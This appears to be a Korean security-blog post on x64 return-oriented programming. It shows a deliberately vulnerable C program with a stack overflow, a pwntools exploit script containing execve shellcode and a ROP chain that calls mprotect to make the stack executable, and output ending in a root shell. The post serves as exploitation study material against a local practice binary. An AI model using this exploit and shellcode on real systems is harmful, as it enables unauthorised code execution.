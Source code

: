 ```yaml
---
layout: post
title: "x64 Return Oriented Programming (mprotect)"
categories: Exploit Stack
---
```


ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o rop rop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
   
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    printf("buf[50] address : %p\n",buf);
    read(0, buf, 256);
}
  
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

"A"*72 입력 시 Overflow 발생.

```
gdb-peda$ x/24gx $rsp
0x7fffffffe450:	0x4141414141414141	0x000000000040070a
```

mprotect() 함수를 이용하여 Shellcode가 저장된 메모리 영역의 권한을 rwx로 변경 
-> address 값은 페이지 경계에 맞게 정렬되어 있어야 한다.  
mprotect(address of shellcode,0x2000,0x7)

## **Exploit Code**
```python
# Exploit Code
import sys
from pwn import *

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

binary = ELF('./rop')
libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
p = process('./rop')
#gdb.attach(p)
p.recvline()

printf_addr = int(p.recvline().split(' ')[3],16)
buf_addr = int(p.recvline().split(' ')[3],16)
libBase = printf_addr - 0x55800
mprotect_addr = libBase + libc.symbols['mprotect']
pop_rdi_ret = libBase + 0x00141997
pop_rdx_pop_rsi_ret = libBase + 0x001150c9

shell_area = int(str(hex(buf_addr))[0:11]+'000',16)

print('printf_addr: '+str(hex(printf_addr)))
print('buf_addr: '+str(hex(buf_addr)))
print('shell_area: '+str(hex(shell_area)))

payload = shellcode
payload += "A"*(72-len(shellcode))
# mprotect(shellArea,0x2000,0x7)
payload += p64(pop_rdi_ret)
payload += p64(shell_area)
payload += p64(pop_rdx_pop_rsi_ret)
payload += p64(0x7)
payload += p64(0x2000)
payload += p64(mprotect_addr)
payload += p64(buf_addr)


#raw_input('1')
p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/test# python exploit.py 
[*] '/root/test/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './rop': pid 3650
printf_addr: 0x7f52d5ce1800
buf_addr: 0x7ffef5aa0f20
shell_area: 0x7ffef5aa0000
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect](https://www.lazenca.net/display/TEC/03.ROP%28Return+Oriented+Programming%29+-+mmap%2C+mprotect)

